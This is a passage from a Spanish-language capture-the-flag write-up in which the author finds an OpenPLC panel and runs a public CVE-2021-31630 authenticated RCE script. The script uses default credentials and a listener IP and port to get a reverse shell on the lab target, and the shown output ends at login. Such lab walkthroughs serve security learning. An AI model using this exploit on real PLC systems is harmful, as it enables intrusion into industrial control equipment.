 y como podemos ver entramos en panel de openplc, buscaremos vulnerabilidades de OpenPLC para encontrar la manera de obtener una shell

![Pasted image 20240725112648.png](../assets/images-WifineticTwo/Wifinetictwo4.png)

Encontramos el CVE-2021-31630 que es un script de Python nos otorga una reverse shell por lo tanto veremos su modo de uso
```bash
❯ python3 cve_2021_31630.py -h
usage: cve_2021_31630.py [-h] [-u U] [-p P] [-t T] -lh LH -lp LP url

positional arguments:
  url         Target URL with http(s)://

options:
  -h, --help  show this help message and exit
  -u U        Username
  -p P        Password
  -t T        Request Timeout, increase if server is slow
  -lh LH      LHOST
  -lp LP      LPORT
```
vemos que tenemos que pasarle el usuario, la contraseña,, nuestra IP , el puerto de escuha y la Url entonces pasamos estos parametros y nos ponemos en escucha por el puerto que le indiquemos
```bash
❯ python3 cve_2021_31630.py -u openplc -p openplc -lh 10.10.16.62 -lp 443 http://10.10.11.7:8080

------------------------------------------------
--- CVE-2021-31630 -----------------------------
--- OpenPLC WebServer v3 - Authenticated RCE ---
------------------------------------------------

[>] Found By : Fellipe Oliveira
[>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t ]

[>] Target   : http://10.10.11.7:8080
[>] Username : openplc
[>] Password : openplc
[>] Timeout  : 20 secs
[>] LHOST    : 10.10.16.62
[>] LPORT    : 443

[!] Checking status...
[+] Service is Online!
[!] Logging in...
```